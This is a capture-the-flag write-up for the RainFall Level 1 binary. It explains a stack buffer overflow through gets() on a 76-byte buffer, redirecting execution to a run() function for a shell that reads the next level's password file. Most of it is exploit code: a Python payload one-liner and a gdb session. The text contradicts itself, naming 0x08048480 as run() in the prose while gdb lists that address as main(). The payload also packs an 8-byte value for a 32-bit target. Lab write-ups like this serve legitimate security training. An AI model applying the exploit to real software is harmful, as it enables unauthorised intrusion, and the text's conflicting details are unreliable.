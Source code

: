 # Level 1

From the source (thank you Ghidra), we can see the main calls the vulnerable function `gets` with a buffer of size 76.
We can also see another function called run at memory address 0x08048480.

So we can do a buffer overflow exploit where we fill the entire buffer with random values (here A's) and directly afterwards (in the return address), we write the memory address of the run function but in Little-Endian notation.
And we use `cat` to keep the shell open.

```bash
(python -c 'import struct; print 76 * "A" + struct.pack("<Q", 0x08048444)'; cat) | ./level1 
```

## Putting it all together:

```shell
level1@RainFall:~$ gdb ./level1
[…]
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) info functions
All defined functions:
Non-debugging symbols:
[…]
0x08048444  run
0x08048480  main
[…]
(gdb) quit
level1@RainFall:~$ (python -c ‘import struct; print “A”*76 + struct.pack(“<Q”, 0x08048444)‘; cat -) | ./level1
Good... Wait what?
cat /home/user/level2/.pass
[…]
``` 
f